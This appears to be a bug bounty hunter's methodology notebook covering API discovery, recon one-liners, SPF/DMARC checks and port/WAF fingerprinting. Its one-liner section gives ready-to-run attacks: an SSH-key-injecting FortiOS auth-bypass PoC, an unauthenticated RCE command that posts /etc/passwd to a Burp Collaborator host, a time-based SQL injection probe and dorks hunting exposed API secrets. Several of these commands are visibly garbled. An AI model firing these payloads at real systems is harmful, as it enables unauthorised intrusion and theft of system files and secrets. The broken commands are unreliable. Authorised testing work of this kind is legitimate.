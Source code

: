 ```yaml
---
tags:
  - hunting-methodology
---
```

# Subdomain Enumeration
[[Subdomain Enumeration]]
# API
1. Check for documentation 
	- Swagger -> `/openapi.json`
	- GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema 
	- manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
	- `site:target.tld inurl:api`
	- `intitle:"index of" "api.yaml" site:target.tld`
	- `intitle:"index of" intext:"apikey.txt" site:target.tld`
	- `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
	- https://wordlists-cdn.assetnote.io/data/automated/httparchive_apiroutes_2023_08_28.txt
	- swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
	- Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

# One-liners & Quick Wins
```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# sitemap xss
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```
-----
# Mail Server Misconfiguration
## No Valid SPF Records / No DMARC Record
check all domains here: [SPF Query Tool (kitterman.com)](https://www.kitterman.com/spf/validate.html?)
POC With: [Emkei's Fake Mailer](https://emkei.cz/) | [Mail Server Misconfiguration | Bug Bounty PoC | 0xKayala - YouTube](https://www.youtube.com/watch?v=p8L_MAJ0byU)
check with : [MX Lookup Tool - Check your DNS MX Records online - MxToolbox](https://mxtoolbox.com/)
### **References**
[How To use an SPF Record to Prevent Spoofing & Improve E-mail Reliability | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-use-an-spf-record-to-prevent-spoofing-improve-e-mail-reliability)
[Chainlink | Report #629087 - No Valid SPF Records. | HackerOne](https://hackerone.com/reports/629087)

------
# Fingerprinting
-  Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)
    
    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
    
- Waf Detect
    
    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
- **[uncover](https://github.com/projectdiscovery/uncover)** >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.
	```python
	# installation
	go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
	# configuration file 
	$HOME/.config/uncover/provider-config.yaml
	# usage
	uncover -q "test.com" -e censys,fofa,shodan
	```